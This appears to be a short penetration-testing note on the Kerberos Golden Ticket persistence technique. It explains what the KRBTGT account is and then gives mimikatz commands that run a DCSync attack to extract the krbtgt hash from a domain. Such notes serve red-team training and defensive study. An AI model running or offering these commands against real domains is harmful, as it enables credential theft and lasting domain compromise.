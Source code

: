 -- -
We are attempting to get a KRBTGT. KRBTGT Stands for Kerberos Ticket Granting Ticket. It's a ticket for the Service Account used to encrypt and sign all Kerberos tickets granted within the given domain. Can be used to request TGS tickets for any service on any host in the domain. Also known as the #GoldenTicket. This is a well-known #persistence method. 
#### Attack
After you have domain admin (or similar), log into said privileged account on a host (or DC) in the domain. Run DCSync attack to obtain the hash for the KRBTGT account.
```powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /user:<domain>\krbtgt
lsadump::dcsync /user:LOGISTICS\krbtgt
```